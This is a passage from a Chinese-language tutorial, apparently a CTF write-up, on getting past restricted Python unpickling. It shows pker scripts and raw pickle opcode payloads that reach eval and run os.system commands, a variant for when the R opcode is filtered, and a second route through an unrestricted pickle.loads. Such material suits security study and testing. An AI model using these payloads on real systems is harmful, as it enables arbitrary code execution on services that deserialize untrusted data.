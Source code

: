 例如这里就出现了`os`.

道理和上边一样.

pker的输入

```
globa1=GLOBAL("builtins","globals")
glob=globa1()
dict=GLOBAL("builtins","dict")
getattr=GLOBAL("builtins","getattr")
get=getattr(dict,"get")
builtins=get(glob,"__builtins__")
eval=getattr(builtins,"eval")
eval('__import__("os").system("whoami")')
return
```

生成的opcode

```
output=b'cbuiltins\nglobals\np0\n0g0\n(tRp1\n0cbuiltins\ndict\np2\n0cbuiltins\ngetattr\np3\n0g3\n(g2\nS\'get\'\ntRp4\n0g4\n(g1\nS\'__builtins__\'\ntRp5\n0g3\n(g5\nS\'eval\'\ntRp6\n0g6\n(S\'__import__("os").system("whoami")\'\ntR.'
```

`R`操作符被过滤时,可以使用如下payload:

```
opcode=b'\x80\x03(cbuiltins\ngetattr\np0\ncbuiltins\ndict\np1\nX\x03\x00\x00\x00getop2\n0(g2\n(cbuiltins\nglobals\noX\x0C\x00\x00\x00__builtins__op3\n(g0\ng3\nX\x04\x00\x00\x00evalop4\n(g4\nX\x21\x00\x00\x00__import__("os").system("calc")o00.
```

##### 思路二 获取没有被重写的`pickle.loads`函数

构造的payload `builtins.dict.get(builtins.globals(),"pickle").loads()`但是这个思路有个bug,`loads()`函数只能传入`byte`类型的字符串.所以对于v0的opcode必须要引入其他函数来改变字符串类型.这就导致可能不能很好地绕过`find_class()`的重写.好在在v3的opcode中有`B`和`C`操作符可以向栈中压入byte类型的字符串.但是pker不能直接调用操作符.就需要我们自己手搓.

pker的输入

```
funcglob=GLOBAL("builtins","globals")
glob=funcglob()
dict=GLOBAL("builtins","dict")
getattr=GLOBAL("builtins","getattr")
get=getattr(dict,"get")
pickle=get(glob,"pickle")
loads=getattr(pickle,"loads")
loads("bytestr")
opcode=b"cbuiltins\nglobals\np0\n0g0\n(tRp1\n0cbuiltins\ndict\np2\n0cbuiltins\ngetattr\np3\n0g3\n(g2\nS'get'\ntRp4\n0g4\n(g1\nS'pickle'\ntRp5\n0g3\n(g5\nS'loads'\ntRp6\n0g6\n(S'bytestr'\ntR"
```

这里需要把生成的opcode的`S'bytestr'`改成byte字符串,用了`B`

```
opcode=b"cbuiltins\nglobals\np0\n0g0\n(tRp1\n0cbuiltins\ndict\np2\n0cbuiltins\ngetattr\np3\n0g3\n(g2\nS'get'\ntRp4\n0g4\n(g1\nS'pickle'\ntRp5\n0g3\n(g5\nS'loads'\ntRp6\n0g6\n(B\x0E\x00\x00\x00youropcodehere\ntR"
```
